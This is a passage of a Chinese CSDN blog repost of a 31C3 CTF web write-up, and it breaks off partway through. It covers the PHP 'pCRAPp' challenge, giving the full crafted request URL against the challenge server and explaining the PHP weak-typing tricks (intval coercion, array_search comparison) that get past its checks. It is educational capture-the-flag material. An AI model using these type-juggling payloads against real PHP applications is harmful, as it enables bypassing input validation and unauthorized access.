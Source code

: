 

# 31C3 CTF web关writeup_weixin_34019929的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_34019929/article/details/87981490](https://blog.csdn.net/weixin_34019929/article/details/87981490)

> ∑-TEAM · 2015/01/07 9:47

# 0x00 背景

* * *

31c3 CTF 还是很人性化的，比赛结束了之后还可以玩。看题解做出了当时不会做的题目，写了一个writeup。

英文的题解可以看这里https://github.com/ctfs/write-ups/tree/master/31c3-ctf-2014/web

# 0x01 pCRAPp

* * *

> PHP is nasty crappy sometimes, just pwn it http://188.40.18.69/

这题需要好多php技巧组合起来。过关需要这样提交。

```
http://188.40.18.69/pCRAPp.php?a={%22a1%22:%221337a%22,%22a2%22:[[1],1,2,3,0]}&b=0001&c[0]=0031c3&c[1][]=1111&d=%00 
复制代码
```

逐步分析一下每个知识点，其实很多技巧在http://drops.wooyun.org/tips/4483这篇文章有讲到。

这里用到了PHP弱类型的一个特性，当一个整形和一个其他类型行比较的时候，会先把其他类型intval再比。

```
#!php
is_numeric(@$a["a1"])?die("nope"):NULL;    
if(@$a["a1"]){
        ($a["a1"]>1336)?$v1=1:NULL;    
}
复制代码
```

这里也利用了相同的原理，array_search 会使用'ctf'和array中的每个值作比较，而且intval('ctf')==0.

```
#!php
if(is_array(@$a["a2"])){
        if(count($a["a2"])!==5 OR !is_array($a["a2"][0])) die("nope");
        $pos = array_search("ctf", $a["a2"]);
        $pos===false?die("nope"):NULL;
        foreach($a["a2"] as $key=>$val){
            $val==="ctf"?die("nope"):NULL;
        }
        $v2=1;
    }
复制代码
```
